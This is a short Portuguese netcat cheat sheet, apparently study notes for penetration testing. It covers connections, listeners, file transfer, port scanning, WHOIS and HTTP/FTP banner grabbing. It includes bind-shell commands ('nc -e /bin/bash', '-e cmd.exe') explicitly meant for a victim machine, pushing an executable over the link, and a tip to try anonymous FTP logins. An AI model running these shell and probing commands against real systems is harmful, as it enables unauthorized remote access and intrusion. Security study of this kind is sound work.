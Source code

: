 # NC
Pode ser usado: nc | ncat | netcat.

``nc`` ==> Executa o netcat.  
``nc -h`` ==> Help do netcat.  
``nc 172.16.1.4 110`` ==> Conecta no IP 172.16.1.4 na porta 110 TCP.  
``nc www.grandbusiness.com.br 21`` ==> Conecta ao site através da porta 21.  
``nc -v 172.16.1.4`` ==> Verbose mode.  
``netstat -nlpt`` ==> Verifica portas abertas no sistema.  
``nc -vlp 5050`` ==> -v [verbose mode], l [listening], p [port], abertura de porta.  
``nc -vlup 9000`` ==> -v [verbose mode], l [listening], u [UDP], p [port], abertura de porta.  
``nc -u 127.0.0.1 9000`` ==> Conecta na porta 9000 UDP no IP 127.0.0.1.  
``nc -vlp 80 < servidor.txt`` ==> Envia o arquivo "servidor.txt" na conexão.  
``nc -lnvp 5050 > ncat.exe`` ==> Envia tudo que chegar para o arquivo ncat.exe.  
``nc -vn 192.168.0.105 5050 < ncat.exe`` ==> Envia o arquivo "ncat.exe" na conexão.  

``nc -vnlp 5050 -e /bin/bash`` ==> Executa o /bin/bash  
``nc -vnlp 5050 -e cmd.exe`` ==> Executa o CMD  
*Os dois comandos acima são um modelo de shell simples onde devem ser executadas na máquina da vítima.*

Escaneando portas:  
``nc -vnz 172.16.1.5 19-30`` Será escaneado da porta 19 atá a 30.  
``nc -vnz 172.16.1.5 22`` Será escaneado somente a porta 22.
``nc -vnz -w2 172.16.1.5 22`` Será escaneado levando em consideração o Timeout de 2 segundos [-w2].
``nc -vnzu -w 172.16.1.5 22`` Será feito o escaneamento UDP [u].

Vericando whois pelo NC:  
``nc -v 200.160.2.3 43  
globo.com``
* A porta 43 é utilizada pelo WHOIS.
* O IP 200.160.2.3 é do registro.br.

---

## Banner Grabbing
### HTTP
nc -vn www.alvo.com 80  
HEAD / HTTP/1.0

---

### FTP
nc -v 192.168.1.100  
USER admin  
PASS 123456  

ftp 192.168.1.100  
*Sempre teste com usuário 'anonymous' e senha 'anonymous'.
Caso o login tenha sido aceito, será retornado o código '230 Login successful'.*